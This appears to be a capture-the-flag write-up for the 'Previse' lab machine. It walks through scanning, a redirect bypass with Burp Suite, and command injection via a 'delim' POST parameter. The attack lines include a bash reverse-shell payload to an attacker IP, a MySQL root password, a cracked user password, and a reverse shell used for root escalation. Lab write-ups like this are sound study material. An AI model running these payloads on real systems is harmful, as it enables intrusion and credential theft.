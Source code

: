 ![](previse%20logo.png)


## nmap all ports
![](Previse/screenshots/nmap%20all%20ports.png)

## nmap services + versions
![](Previse/screenshots/nmap%20services%20and%20versions.png)

![](apache%20release%20date.png)

## gobuster
![](gobuster%20main%20redirects.png)
normally redirects have a size of 0 
but here redirects hava a size > 0
intercept redirects with burpsuite

## domain
![](main%20domain%20redirect%20to%20login.php.png)

## burpsuite
### request
![](burpsuite%20request%20redirect.png)

### response
![](burpsuite%20intercept%20response%20redirect.png)

### response change status code to 200 OK and forward
![](burpsuite%20change%20status%20code.png)

### new domain with login bypassed but immediately redirect to login.php
![](Previse/screenshots/login%20dashboard.png)

### lets make an account --> turn intercept of
![](create%20account.png)

### login
![](login%20to%20new%20account.png)

### login dashboard
![](login%20dashboard%201.png)

### login files
![](login%20files.png)

### dowload SITEBACKUP.ZIP and inspect user input

````
grep '$_' * | grep -v "SESSION\|SERVER"

`````

![](server%20backup%20user%20input%20exec.png)

### python scripts executes post command with parameter delim
````
logs.php:$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");

`````

### also parameter delim
![](burpsuite%20command%20execution.png)

### add sleep command --> response is waiting for 5 seconds
![](burpsuite%20command%20execution%20sleep.png)

### create reverse shell
post data
```
delim=comma;bash -c 'bash -i >& /dev/tcp/10.10.14.11/1111 0>&1'

//url encoded

delim=comma;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.11/1111+0>%261'

```

### get shell as www-data
![](burpsuite%20get%20reverse%20shell.png)

### always look first in config files on servers
![](config%20file%20reveals%20password%20mysql.png)

````mysql

root:mySQL_P@ssw0rd!:)


`````

### connect to mysql
````
mysql -u root -p


`````

### mysql
````
show databases;

use previse;

show tables;

select * from accounts;

select * from accounts where id = 1;

select TO_BASE64(password) from accounts where id = 1;



`````

![](mysql%20extract%20info.png)

![](mysql%20get%20password.png)

### password hash to base64 because of special charaters in password
![](mysql%20convert%20to%20base64.png)
````
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.

JDEk8J+ngmxsb2wkRFFwbWR2bmI3RWV1TzZVYXFSSXRmLg==

`````

### hashcat
![](hashcat.png)
````
m4lwhere:ilovecody112235!

`````

### ssh with new creds
![](ssh%20m4lwhere.png)

### user.txt
![](Previse/screenshots/user.txt.png)

### root.txt error stdout not printing
![](root.txt.png)

### gzip reverse shell
````bash

bash -i >& /dev/tcp/10.10.14.1111/1111 0>&1

`````

![](root%20reverse%20shell%20gzip.png)

### root shell working
![](root%20shell%20working.png)
XXXXXXXXXXXX